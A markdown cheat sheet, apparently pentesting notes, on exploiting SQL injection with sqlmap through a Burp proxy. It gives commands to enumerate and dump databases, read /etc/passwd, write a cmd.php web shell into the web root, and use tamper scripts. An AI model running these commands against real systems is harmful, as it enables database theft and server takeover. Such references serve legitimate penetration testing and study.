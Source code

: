 ```yaml
---
title: "SQL Injection"
date: 2024-6-30
tags: ["sqlmap", "sqli", "sql injection", "burpsuite"]
---
```


### sqlmap

```console
# In Burp Suite, we can right click the request and click `copy to file` to save the request
# And add `*` to request to indicate the sql injection point
```

<br>

```console
# Initial testing HTTP
sqlmap -r request --batch --banner --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10
```

```console
# Initial testing HTTPS
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --force-ssl
```

```console
# Add a string to indicate injection succeed (e.g. Invalid User vs Error Occurred)
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --string 'Invalid User'
```

```console
# Get databases
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --dbs
```

```console
# Get tables
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 -D <DB_NAME> --tables
```

```console
# Dump table
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 -D <DB_NAME> -T <TABLE_NAME> --dump
```

```console
# Dump all tables (slow)
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 -D <DB_NAME> --dump
```

```console
# Specify technique
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --technique U
```

#### Technique

```console
+------------------------+
| B: Boolean-based blind |
| E: Error-based         |
| U: Union query-based   |
| S: Stacked queries     |
| T: Time-based blind    |
| Q: Inline queries      |
+------------------------+
```

#### Advance sqlmap

```console
# File write
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --random-agent --file-write ./cmd.php --file-dest /var/www/html/cmd.php
```

```console
# Add payload tamper script, e.g. randomcase
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --tamper randomcase
```

```console
# Check privileges
sqlmap -r request --privileges
```

```console
# Read a file
sqlmap -r request --file-read=/etc/passwd
```

```console
# Write a file
sqlmap -r request --file-write=./test.txt --file-dest=/tmp/test.txt
```

#### tamper.py template

```python
#!/usr/bin/env python3

from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    return payload
```

<small>*Note: create an empty \_\_init\_\_.py in the same folder*</small>

